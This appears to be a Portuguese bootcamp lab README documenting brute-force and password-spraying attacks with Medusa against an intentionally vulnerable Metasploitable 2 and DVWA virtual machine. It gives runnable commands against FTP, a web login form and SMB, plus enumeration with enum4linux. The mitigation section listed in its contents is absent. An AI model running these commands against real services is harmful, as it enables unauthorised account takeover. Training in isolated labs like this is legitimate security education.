






# 🛡️ Simulação de Ataques de Força Bruta e Prevenção com Kali Linux e Medusa

Projeto prático desenvolvido para o desafio do Bootcamp de Cibersegurança da **DIO (Digital Innovation One)**, focado em auditoria de segurança, simulação de ataques de força bruta (*brute force*) e *password spraying*, além da proposição de medidas defensivas e mitigação.

---

## 📋 Sumário
- [Visão Geral e Ambiente](#-visão-geral-e-ambiente)
- [Cenário 1: Força Bruta em Serviço FTP](#1-cenário-1-força-bruta-em-serviço-ftp)
- [Cenário 2: Força Bruta em Formulário Web (DVWA)](#2-cenário-2-força-bruta-em-formulário-web-dvwa)
- [Cenário 3: Enumeração e Password Spraying em SMB (Samba)](#3-cenário-3-enumeração-e-password-spraying-em-smb-samba)
- [Medidas de Prevenção e Mitigação](#-medidas-de-prevenção-e-mitigação)
- [Ferramentas Utilizadas](#-ferramentas-utilizadas)

---

## 🖥️ Visão Geral e Ambiente

O laboratório foi estruturado em ambiente isolado e controlado no **VirtualBox** utilizando rede exclusiva (*Host-Only*):

- **Atacante:** Kali Linux
- **Alvo:** Metasploitable 2 / DVWA (`IP: 192.168.56.102`)
- **Rede:** Host-Only (192.168.56.0/24)

---

## 1. Cenário 1: Força Bruta em Serviço FTP

### 1.1 Criação das Wordlists
Criação de listas direcionadas para nomes de usuários e senhas:

```bash
# Criação de wordlist com nomes de usuários
echo -e 'user\nmsfadmin\nadmin\nroot' > users.txt

# Criação de wordlist com senhas
echo -e '123456\npassword\nqwerty\nmsfadmin' > pass.txt
```

### 1.2 Ataque de Força Bruta com Medusa
Utilização do `medusa` para testar as combinações contra o serviço FTP:

```bash
medusa -h 192.168.56.102 -U users.txt -P pass.txt -M ftp -t 6
```

> **Evidência da Execução:**


### 1.3 Validação do Acesso
Teste de conexão no FTP com a credencial válida identificada (`msfadmin:msfadmin`):

```bash
ftp 192.168.56.102
```
> **Evidência da Execução:**



---

## 2. Cenário 2: Força Bruta em Formulário Web (DVWA)

### 2.1 Preparação da Wordlist de Usuários
```bash
echo -e 'user\nmsfadmin\nadmin\nroot' > users.txt
```

### 2.2 Ataque ao Formulário Web
Execução do `medusa` via módulo HTTP, mapeando a página de autenticação, campos do formulário e mensagem de falha:

```bash
medusa -h 192.168.56.102 -U users.txt -P pass.txt -M http \
  -m PAGE:'/dvwa/login.php' \
  -m FORM:'username=^USER^&password=^PASS^&Login=Login' \
  -m 'FAIL=Login Failed' \
  -t 6
```
> **Evidência da Execução:**



---

## 3. Cenário 3: Enumeração e Password Spraying em SMB (Samba)

### 3.1 Enumeração com enum4linux
Enumeração prévia de contas, compartilhamentos e configurações no serviço SMB do alvo:

```bash
enum4linux -a 192.168.56.102 | tee enum4_output.txt
```
> **Evidência da Execução:**



### 3.2 Criação das Wordlists para Password Spraying
Preparação dos usuários enumerados e lista de senhas para testes em lote:

```bash
# Wordlist de usuários do SMB
echo -e 'user\nmsfadmin\nservice' > smb_users.txt

# Wordlist de senhas para teste
echo -e 'password\n123456\nWelcom123\nmsfadmin' > senhas_spray.txt
```

### 3.3 Ataque no Serviço Samba
Execução do `medusa` apontando para o módulo `smbnt`:

```bash
medusa -h 192.168.56.102 -U smb_users.txt -P senhas_spray.txt -M smbnt -t 2 -T 50
```
> **Evidência da Execução:**



### 3.4 Validação do Acesso ao SMB
Listagem dos compartilhamentos disponíveis utilizando as credenciais válidas obtidas:

```bash
smbclient -L //192.168.56.102 -U msfadmin
```

> **Evidência da Execução:**


---


## 🧰 Ferramentas Utilizadas

- **[Kali Linux](https://www.kali.org/)** – Distribuição voltada para testes de invasão e auditoria.
- **[Medusa](https://github.com/jmk-foofus/medusa)** – Ferramenta modular, veloz e paralela para testes de força bruta.
- **[Metasploitable 2](https://docs.rapid7.com/metasploit/metasploitable-2/)** – Máquina virtual intencionalmente vulnerável.
- **[DVWA](https://dvwa.co.uk/)** – Damn Vulnerable Web Application.
- **[enum4linux](https://github.com/CiscoCXSecurity/enum4linux)** – Ferramenta para enumeração de dados em hosts Windows e Samba.
- **smbclient / ftp** – Clientes de linha de comando para validação de conexões.
